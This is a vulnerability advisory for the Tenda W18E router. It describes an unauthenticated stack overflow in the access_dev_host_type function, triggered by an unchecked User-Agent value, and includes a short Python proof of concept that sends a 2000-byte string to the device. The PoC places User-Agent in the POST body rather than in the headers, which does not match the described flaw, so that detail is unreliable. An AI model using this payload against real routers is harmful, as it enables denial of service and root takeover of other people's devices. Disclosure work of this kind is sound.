 # Tenda W18E access_dev_host_type
### Overview
vendor: Tenda

product: W18E

version: V16.01.0.13(3742)

type: Stack Overflow
### Vulnerability Description
Tenda W18E V16.01.0.13(3742) were discovered to contain a stack overflow in the access_dev_host_type function.This device has an unauthorized RCE vulnerability. Attackers can obtain root privileges without logging in.
### Vulnerability details
In function access_dev_host_type line 15、19, it reads in a user-provided parameter `User-Agent`, and the variable `s` is passed to the `memcpy` function without any length check, which may overflow the stack-based buffer `v6`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/w18e-1-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/'
payload = {
    "User-Agent": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
